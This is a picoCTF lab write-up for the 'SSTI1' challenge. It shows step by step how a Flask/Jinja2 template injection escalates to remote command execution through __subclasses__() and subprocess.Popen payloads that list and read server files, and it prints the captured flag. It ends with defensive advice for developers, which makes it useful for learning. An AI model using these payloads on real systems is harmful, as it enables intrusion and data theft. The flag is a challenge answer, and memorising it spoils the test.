







# CTF Web Exploitation Report — SSTI1

## Statement
I made a cool website where you can announce whatever you want! Try it out!

## Challenge Info
- **Name:** SSTI1
- **Origin:** pico-ctf 
- **Category:** Web Exploitation
- **Date:** 2026-03-28

## Tools Used
-`Wappalyzer`,`Python3`

## Findings

### Step 1 — Analysis of the Web Page with Wappalyzer

    

- Result: Found that the web page in made by Python3 with the Framework Flask. 

### Step 2 — Exploiting the input of the Web Page

- After confirm the framework of the webpage we crafted a basic syntax to confirm the SSTI.

- Command: `{{7*7}}`

    

- Result: After applying the command, the result was:

    

- Result: After the result obtained we can confirm that the site is vulnerable to SSTI via Jinja2

### Step 3 — Crafting a payload

- Command: `{{"".__class__.__mro__[1].__subclasses__()}}`

    

- Breakdown of the command: `"".__class__.__mro__[1]` Accesses the base object class, the superclass of all Python classes.

- Breakdown of the command: `__subclasses__()` List all subclasses object and [356] the index for the `subprocess.Popen` class (this index may vary and should be checked in the target environment)

    

### Step 4 — Crafting a payload to list the content of the server files.

- Command: `{{ "".__class__.__mro__[1].__subclasses__()[356](['ls', '-l'], stdout=-1).communicate() }}`

- Data: `[356] Index for the subprocess.Popen`

- Result: 

    

- Result: After applied the payload we can observ the server files and notice a flag file, the next step is gona be reading that file.

### Step 5 — Reading the flag file with a crafted payload.

- Command: `{{ "".__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate() }}`

- Result: 

    

## Flag
`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}`

## Conclusion

This challenge demonstrates how Server-Side Template Injection (SSTI) can escalate from a simple input field into full Remote Code Execution (RCE) on the server.

The root cause was the application passing raw user input directly into Jinja2's render_template_string() function without any sanitization. This allowed us to break out of the template context, traverse Python's object model through __class__, __mro__, and __subclasses__(), and ultimately instantiate subprocess.Popen to execute arbitrary OS commands — reading sensitive server files including the flag.

Key takeaways for developers:

    1- Never pass raw user input into render_template_string(). Use render_template() with static template files instead.

    2- Validate and sanitize all user-supplied input before processing.

    3- Apply the principle of least privilege — the web application process should not have access to sensitive files beyond what it strictly needs.

    4- Consider using a Jinja2 sandbox environment (SandboxedEnvironment) if dynamic template rendering is unavoidable.

    SSTI vulnerabilities are a reminder that template engines are code interpreters — treating user input as trusted template content is equivalent to allowing arbitrary code execution.

    

